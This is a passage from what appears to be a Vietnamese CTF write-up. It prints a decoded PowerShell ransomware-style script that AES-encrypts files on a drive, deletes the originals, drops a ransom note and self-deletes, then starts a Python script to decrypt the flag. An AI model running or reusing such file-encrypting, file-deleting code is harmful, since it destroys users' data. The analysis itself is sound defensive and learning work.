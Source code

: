 Giải mã ta được

```
$key = [System.Text.Encoding]::UTF8.GetBytes("m4yb3w3d0nt3x1st")
$iv  = [System.Text.Encoding]::UTF8.GetBytes("l1f31sf0rl1v1ng!")

$AES = New-Object System.Security.Cryptography.AesManaged
$AES.Key = $key
$AES.IV = $iv
$AES.Mode = "CBC"
$AES.Padding = "PKCS7"

# Load plaintext flag from C:\ (never written to L:\ in plaintext)
$flag = Get-Content "C:\Users\Blue\Desktop\StageRansomware\flag.txt" -Raw
$encryptor = $AES.CreateEncryptor()
$bytes = [System.Text.Encoding]::UTF8.GetBytes($flag)
$cipher = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length)
[System.IO.File]::WriteAllBytes("L:\flag.enc", $cipher)

# Encrypt other files staged in D:\ (or L:\ if you're using L:\ now)
$files = Get-ChildItem "L:\" -File | Where-Object {
    $_.Name -notin @("ransom.ps1", "ransom_note.txt", "flag.enc", "payload.enc", "loader.ps1")
}

foreach ($file in $files) {
    $plaintext = Get-Content $file.FullName -Raw
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $cipher = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length)
    [System.IO.File]::WriteAllBytes("L:\$($file.BaseName).enc", $cipher)
    Remove-Item $file.FullName
}

# Write ransom note
$ransomNote = @"
i didn't mean to encrypt them.
i was just trying to remember.

the key? maybe it's still somewhere in the dark.
the script? it was scared, so it disappeared too.

maybe you'll find me.
maybe you'll find yourself.

- vivi (or his ghost)
"@
Set-Content "L:\ransom_note.txt" $ransomNote -Encoding UTF8

# Self-delete
Remove-Item $MyInvocation.MyCommand.Path
```
```powershell``` này cũng mã hóa nội dung của ```flag.enc``` bằng ```AES-CBC``` viết 1 đoạn ```python``` giải mã

```python
from Crypto.Cipher import AES

key = b"m4yb3w3d0nt3x1st"
iv = b"l1f31sf0rl1v1ng!"

with open("flag.enc", "rb") as f:
    cipher = f.read()

aes = AES.new(key, AES.MODE_CBC, iv)
plaintext = aes.decrypt(cipher)

# Remove PKCS7 padding
```